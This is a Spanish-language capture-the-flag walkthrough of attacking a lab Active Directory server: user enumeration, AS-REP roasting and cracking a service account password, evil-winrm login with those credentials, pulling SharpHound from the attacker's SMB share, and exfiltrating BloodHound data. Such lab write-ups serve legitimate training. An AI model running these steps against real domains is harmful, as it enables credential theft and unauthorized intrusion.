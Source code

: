 Haremos los reconocimientos de siempre:
![[Pasted image 20230126111303.png]]
Ya que es una máquina Windows, debemos enumerar con crackmapexec qué máquina es y qué windows tiene instalado, el cual se trata de un Windows Server 2016: [[Crackmapexec#Detectar dominio y hostname con crackmapexec]]
![[Pasted image 20230126111311.png]]
Intentamos listar los recursos compartidos con una null session de esta máquina pero no sale nada:
![[Pasted image 20230126111320.png]]
Lo que podemos hacer es intentar enumerar usuarios válidos haciendo uso de la herramienta enum4linux:
![[Pasted image 20230126112406.png]]
![[Pasted image 20230126112436.png]]
Ahora que tenemos todos estos usuarios, vamos a guardarlos todos en un documento para poder usarlos como ataque de fuerza bruta, esto podemos hacerlo a través de expresiones regulares en bash o copiando y pegando cada usuario:
![[Pasted image 20230126113248.png]]
Y lo guardamos dentro del documento users:
![[Pasted image 20230126113324.png]]
Ahora que tenemos este listado de usuarios, hay una herramienta que se llama GetNPusers de impacket que sirve para obtener Ticket Granting Ticket (TGT) de credenciales de aquellos usuarios que no requieren autenticación Kerberos; por tanto debemos pasarle el dominio y el diccionario con los usuarios, y vemos que nos encuentra un hash de uno de los usuarios:
![[Pasted image 20230126114019.png]]
Ahora guardamos este hash en un documento de texto y con john intentamos deshashearla con un ataque de fuerza bruta utilizando el diccionario rockyou.txt:
![[Pasted image 20230126111407.png]]
Y tras ejecutar este comando, obtenemos una contraseña, la cual es s3rvice:
![[Pasted image 20230126114314.png]]
Ahora con crackmapexec podemos validar si estas credenciales son válidas, las cuales vemos que sí:[[Crackmapexec#Comprobar y validar credenciales con crackmapexec]]
![[Pasted image 20230126111426.png]]
Y con estas credenciales ya podemos listar recursos compartidos y los permisos que tenemos:[[Crackmapexec#Listar recursos compartidos con crackmapexec]]
![[Pasted image 20230126111434.png]]
Y ahora podemos ver si este usuario forma parte del grupo win managament users:
![[Pasted image 20230126111442.png]]
Ahora con toda esta información ya podemos ganar una consola interactiva utilizando las credenciales de este usuario utilizando evil-winrm:
```bash
evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
```
![[Pasted image 20230126111450.png]]
Y navegando por los directorios, obtenemos la flag:
![[Pasted image 20230126111458.png]]
Podemos conocer detalles sobre este usuario con el comando net user svc-alfresco:
![[Pasted image 20230130110201.png]]
Ahora para escalar los privilegios podemos utilizar una herramienta llamada bloodhound que nos va a recopilar mucha información acerca del Active Directory de la víctima, por lo que en Kali Linux ya lo tenemos en este directorio:
![[Pasted image 20231123180300.png]]
Y nos lo compartimos con la máquina víctima a través de samba:
![[Pasted image 20231123180423.png]]
Y desde la máquina víctima nos lo recibimos:
```
copy \\10.10.16.6\recurso\SharpHound.exe SharpHound.exe
```
![[Pasted image 20231123180550.png]]
Y ahora ejecutamos el SharpHopund.exe y nos habrá generado un archivo zip:
![[Pasted image 20231123180800.png]]
![[Pasted image 20231123180824.png]]
Y ahora para bajarnos este comprimido, ejecutamos el siguiente comando que nos va a permitir descargar archivos desde Evil-WinRM:
```javascript
download C:\Users\svc-alfresco\Desktop\20231123091422_BloodHound.zip data.zip
```
![[Pasted image 20231123181018.png]]
![[Pasted image 20231123181031.png]]
Y ahora tenemos que arrancar el neo4j console, que será lo que haga funcionar a bloodhound, por tanto ejecutamos el comando `neo4j console`
![[Pasted image 20231123181511.png]]
Y a continuación tenemos que acceder al puerto 7687 para establecer unas credenciales y abrir bloodhound:
```
http://localhost:7474/browser/
```
![[Pasted image 20231123182143.png]]
Aquí nos autenticamos con las credenciales por defecto las cuales son neo4j y neo4j y al darle a connect nos pedirá configurar unas nuevas credenciales:
![[Pasted image 20231123182308.png]]
A continuación, abrimos la app de bloodhound y nos autenticamos con estas nuevas credenciales:
![[Pasted image 20231123182740.png]]
Y una vez dentro le cargamos toda la data que hemos obtenido anteriormente desde la máquina víctima:
![[Pasted image 20231123182913.png]]
En la parte de arriba ponemos el usuario que hemos comprometido:
![[Pasted image 20231123183448.png]]
Y marcamos como pwned este usuario:
![[Pasted image 20231123183429.png]]
Y se nos muestra todo el mapa del AD:
![[Pasted image 20231123184137.png]]
